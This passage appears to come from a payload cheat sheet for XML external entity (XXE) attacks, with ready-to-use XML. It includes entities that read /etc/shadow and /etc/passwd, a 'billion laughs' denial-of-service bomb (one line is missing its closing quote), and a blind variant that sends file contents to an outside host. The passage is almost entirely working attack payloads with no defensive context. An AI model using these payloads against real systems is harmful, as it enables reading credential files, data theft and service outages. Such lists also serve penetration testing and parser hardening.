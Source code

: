     ```

    **XXE: Entity Example**

    ```xml
    <!--?xml version="1.0" ?-->
    <!DOCTYPE replace [<!ENTITY example "Doe"> ]>
     <userInfo>
      <firstName>John</firstName>
      <lastName>&example;</lastName>
     </userInfo>

    ```

    **XXE: File Disclosure**

    ```xml
    <!--?xml version="1.0" ?-->
    <!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/shadow"> ]>
    <userInfo>
     <firstName>John</firstName>
     <lastName>&ent;</lastName>
    </userInfo>

    ```

    **XXE: Denial-of-Service Example**

    ```xml
    <!--?xml version="1.0" ?-->
    <!DOCTYPE lolz [<!ENTITY lol "lol"><!ELEMENT lolz (#PCDATA)>
    <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;
    <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
    <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
    <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
    <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
    <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
    <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
    <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
    <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
    <tag>&lol9;</tag>

    ```

    **XXE: Local File Inclusion Example**

    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE foo [
    <!ELEMENT foo (#ANY)>
    <!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xxe;</foo>

    ```

    **XXE: Blind Local File Inclusion Example (When first case doesn't return anything.)**

    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE foo [
    <!ELEMENT foo (#ANY)>
    <!ENTITY % xxe SYSTEM "file:///etc/passwd">
    <!ENTITY blind SYSTEM "https://www.example.com/?%xxe;">]><foo>&blind;</foo>
